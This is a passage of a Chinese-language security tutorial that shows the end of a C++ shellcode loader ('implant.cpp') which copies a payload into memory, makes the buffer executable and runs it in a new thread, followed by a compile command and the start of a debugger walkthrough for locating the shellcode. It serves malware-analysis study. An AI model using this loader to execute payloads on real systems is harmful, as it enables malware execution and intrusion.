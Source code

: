 ```cpp
    // 开辟内存缓冲区，分配可读可写权限
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 打印内存信息，用于调试分析
    printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
    printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

    // 拷贝payload到新缓冲区
    RtlMoveMemory(exec_mem, payload, payload_len);

    // 赋予新缓冲区可执行权限
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

    printf("\nHit me!\n");
    getchar();

    // 上述步骤都OK，执行payload
    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(th, -1);
    }

    return 0;
}
```

### 动态分析

这里使用简单的shellcode便于分析进程本身

使用`cl.exe`编译cpp源码

```php
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

执行`implant.exe`，打印出内存地址信息

![LZoGo8.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b891e19210a2ec58bbfda3c87ae9fb5f1df3be1d.png)

启动dbg进行调试，添加调试进程，选择`File-Attach`，找到并选择implant进程。

![LZoYFS.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-feda12ed0ec29587082dac10e0bd59105221f0d2.png)

将implant程序运行起来，按`F9`或者右箭头

![LZotJg.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-888fb1f00eb203e69e825cbcbf6995f7f9a7699c.png)

回到cmd窗口按回车运行下，dbg中程序已暂停，在程序代码窗口显示出了我们编写的shellcode

![LZolLt.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-bc68f13bea71fa51103f42ed5a59abdca6fd8f67.png)

接着程序已经执行完了，我们现在的目标是找到shellcode的地址。选择`Memory Map`窗口，右键查找字符串。
